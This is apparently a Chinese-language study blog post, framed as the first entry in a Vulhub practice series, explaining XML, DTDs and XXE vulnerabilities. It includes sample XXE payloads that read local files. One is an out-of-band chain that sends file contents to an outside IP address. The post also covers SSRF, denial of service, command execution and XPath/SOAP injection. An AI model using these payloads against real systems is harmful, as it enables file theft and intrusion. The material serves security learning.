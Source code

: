 ```yaml
---

layout: post

title: "Vulhub 1 ——XXE"

author: "markt"

---
```



> 打算立个flag，Vulhub的漏洞，按照自己做的Excel一天来一个吧至少。

## 前置知识

类似HTML，XML（e**X**tensible **M**arkup **L**anguage）可以算作是一种标记语言，都有标签，都有内容和属性，但区别在于XML对语法要求更严格。

XML多用于传输、存储数据，其中有一种类似变量的东西叫作DTD ，可以看作是存储XML文件标签格式的东西，分为内部和外部。

内部的就是在文档首部自己定义，类似定义一个string变量，而外部的就是读取外部的DTD文档`*.DTD`。既然是读取外部的文档，那么就存在了文件读取的问题。

## XXE

当开启了外部实体时，便可自己构造DTD读取文件，类似`<!ENTITY xxe SYSTEM "file:///var/www/html/dom.php" >`

除了file协议，还有http协议等，便可达到访问外部网页、执行系统命令等的效果，如`<!ENTITY xxe SYSTEM "http://baidu.com" >`。（前提是打开allow_url_fopen）

这里实现的是最基本的XXE，当然还可以将读取的文件结果以GET参数的形式传出来，例如：

```
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY % file SYSTEM "file:///var/www/html/1.txt" >
<!ENTITY % dtd SYSTEM "file:///var/www/html/e.dtd" >
%dtd;
%send;
]>

然后e.dtd中：
<!ENTITY % all
"<!ENTITY &#x25; send SYSTEM 'http://123.206.9.135/?&file;'>"
> %all;
```

则可以通过一系列的调用达到预期效果。其中 % 意为 该定义只能在本DTD中使用，既不能用于外部DTD也不能用于XML内容中。而且通过DTD定义DTD（`<!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'http://123.206.9.135/?&file;'>"`）时，%需要专转义。

此外，还需注意一般的文件尾会有回车，导致解析XML时出现URL无效的问题，这时候需要把读取的文件稍微变形一下，例如利用PHP流或者是Base64加密（都没试过）。

## XML可以干什么...

但从XXE来讲，可以利用的方式就有读取文件和发起恶意请求。再扩展一下思路，恶意请求可以造成拒绝服务，还可以进行内网探测（SSRF、端口扫描）。除了这些以外，还可以通过xml的解析方法消耗服务器资源造成另一种姿势的拒绝服务。

此外，XML相关的插件（PHP中PECL上的Expect扩展）也可以被用来直接远程执行系统命令。

## 除了XXE..

还有XML注入，SOAP注入，Xpath注入。不过看起来的话基本上都是数据注入的一个分支。

### Xpath注入

简单来说就是数据来源从数据库变成了XML，查询的语言有所变化。

### SOAP注入

SOAP：基于xml语言开发，使用Web服务描述语言（WSDL）来生成Web服务之间的接口。

而针对SOAP的注入其实简单来说就是注入点从URL或者表单变成了XML，其数据还是从数据库中读取，所以并没有什么别的差异。同样，如果把SOAP看成是广义的一种输入点，那么注入的类别不仅仅会有SQL注入，还可以有命令注入。

## 参考

[xxe实验踩坑记录](https://m3lon.github.io/2019/01/20/xxe%E5%AE%9E%E9%AA%8C%E8%B8%A9%E5%9D%91%E8%AE%B0%E5%BD%95/)

[未知攻焉知防——XXE漏洞攻防](https://security.tencent.com/index.php/blog/msg/69)

[XML注入介绍--XXE，XEE,xpath等](https://www.cnblogs.com/lcamry/p/5736998.html)

[【技术分享】针对SOAP的渗透测试与防护](https://www.anquanke.com/post/id/85410)